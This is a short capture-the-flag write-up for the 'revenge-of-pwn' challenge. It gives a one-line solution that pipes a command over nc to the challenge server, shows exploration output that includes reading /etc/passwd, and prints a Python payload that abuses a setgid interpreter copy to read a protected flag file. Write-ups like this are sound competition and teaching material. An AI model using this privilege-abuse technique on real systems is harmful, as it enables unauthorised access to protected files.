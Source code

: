 # revenge-of-pwn

> Have you ever thought those challenges you pwned may retaliate someday? nc 3.115.58.219 9427 revenge_of_pwn-255196bb99d75512732a4109f154103b4bc428e6e29e2cdcc69e44aee67ea75f.tar.gz

Categories:
* misc
* pwn

## Solution

```
printf $'131\n/home/deploy/secret_python_others_should_never_know -c \'__import__("os").setgid(1001);print(open("/home/deploy/flag").read())\' 1>&2\n' | nc 3.115.58.219 9427
ELF size? (MAX: 6144)
[*] Version of pwntools: 4.3.0
[x] Opening connection to 127.0.0.1 on port 1337
[x] Opening connection to 127.0.0.1 on port 1337: Trying 127.0.0.1
[+] Opening connection to 127.0.0.1 on port 1337: Done
hitcon{use_pwntools_to_pwn_pwntools_^ovo^}
```

## Explanation

So basically I think we were supposed to abuse pwntools `asm` function, but I'm pretty lazy.

Since we basiclaly have a shell by sending `len(cmd) + "\n" + cmd` to the socket (it executes with `bash` instead of as an ELF), I explored a little first:

```
$ ls -lah $HOME
-rwxr-sr-x 1 root exploiter 5.3M Nov 26 05:07 /home/deploy/secret_python_others_should_never_know
-rw-r----- 1 root exploiter 43 Nov 24 14:58 /home/deploy/flag
```

The setgid bit is set on `secret_python_others_should_never_know`, and it's owned by `exploiter`--and so is the flag! 

```
$ cat /etc/passwd | grep exploiter
exploiter:x:1001:1001:,,,:/home/exploiter:/bin/bash
```

So now we just run `secret_python_others_should_never_know` which is basically a copy of the `python3` binary:

```
import os
os.setgid(1001)
os.system('cat /home/deploy/flag')
```

(^ expanded payload)

